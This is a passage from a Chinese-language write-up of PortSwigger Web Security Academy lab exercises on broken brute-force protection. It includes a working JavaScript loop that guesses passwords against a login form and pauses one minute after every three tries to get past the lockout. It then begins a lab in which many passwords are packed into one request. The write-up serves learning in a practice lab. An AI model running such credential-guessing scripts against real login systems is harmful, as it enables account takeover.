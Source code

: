 ```
You have made too many incorrect login attempts. Please try again in 1 minute(s).
```

嘗試加個 sleep，每嘗試 3 次就休息 1 分鐘，雙螢幕的夥伴就可以先把 youtube 打開刷影片了(x)

```js
function sleep(time) {
  return new Promise((resolve) => {
    setTimeout(resolve, time);
  });
}

async function main() {
  let count = 0;
  for (const username of ["agenda"]) {
    for (const password of passwords.slice(3)) {
      const response = await login(username, password);
      // custom logic here
      const text = await response.text();
      const isInvalid = text.includes("Invalid username or password.");
      count += 1;
      console.log({ username, password, isInvalid });
      if (!isInvalid) {
        console.log(username, "stops");
        return;
      }
      if (count === 3) {
        count = 0;
        await sleep(60000);
      }
    }
  }
}
```

過了約 30 分鐘，終於在第 95 次嘗試的時候找到答案，感動～

## Lab: Broken brute-force protection, multiple credentials per request

| Dimension | Description                                                                                                                           |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/authentication/password-based#user-rate-limiting                                                 |
| Lab       | https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request |

嘗試第 4 次的時候，看到

```
You have made too many incorrect login attempts. Please try again in 1 minute(s).
```

題目說 multiple credentials per request，所幸死馬當活馬醫，直接把所有 passwords 塞進去一個 HTTP Request
